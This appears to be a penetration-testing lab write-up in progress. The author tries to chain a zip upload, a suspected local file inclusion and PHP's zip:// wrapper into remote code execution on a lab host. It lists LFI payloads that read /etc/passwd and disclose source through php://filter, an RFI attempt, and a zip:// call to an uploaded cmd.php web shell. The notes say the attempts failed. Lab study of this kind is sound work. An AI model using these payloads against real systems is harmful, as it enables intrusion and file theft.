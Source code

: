 Resulting compression is from 3342 to 1412 bytes - potential signature based on compress rate?
![](resultingcompression.png)
- Takeways:
	- It accepts any file type
	- We have to control the execution of the zipping upon upload to:
		- Exfiltrate local files - we cant
		- Inject into the fields 
		- Inject into the names that will break 

I took the first hint:
> Discovering an upload for zips, the ability to retrieve zip files, and identifying an LFI can be chained together to achieve RCE

I need to discover the LFI. Almost certainly given the way the application retrieve files must be vulnerable some how.

I tried using payloadsallthethings payload wordlist to fuzz for LFI in a automated manner while I tried finding the source code where the LFI occurs.
![](ffuffuzzalfiondownloadsfromuploadsdir.png)

I compared the wordlist to my notes on encodings and found it practically the same. The next place would the be `index.php?file=`

With sadly similar results:
![](similarissuesonindexFILE.png)

Having put atleast 4 hours in an working through the hints for the second hint:
> We can leverage the LFI to unzip a zip archive using the zip:// wrapper

This is a php wrapper I was unaware of, dorking for this wrapper I found [rioasmara](https://www.google.com/search?client=firefox-b-e&q=php+zip+wrappter) and probably that is because I have not tried to use it.
![](zlibnotzip.png)

The problem is cannot seem to get a file reflected back, which seems to me to be the proof of concept that it would be vulnerable.
```
http://192.168.248.229/index.php?file=/etc/passwd
http://192.168.248.229/index.php?file=upload_1698494389.zip
http://192.168.248.229/index.php?file=php://filter/resource/etc/passwd
http://192.168.248.229/index.php?file=php://filter/resource/uploads/upload_1698494389.zip
http://192.168.248.229/index.php?file=php://filter/convert.base64-encode/resource=index.php
```


I could not RFI either 
```
http://192.168.248.229/index.php?file=http://$ip/test.txt
```

I tried similiar to upload a cmd.php and try to use the `zip://``
```
http://192.168.248.229/index.php?file=zip:/var/www/html/uploads/upload_1698496988.zip%23cmd.php&cmd=whoami
```
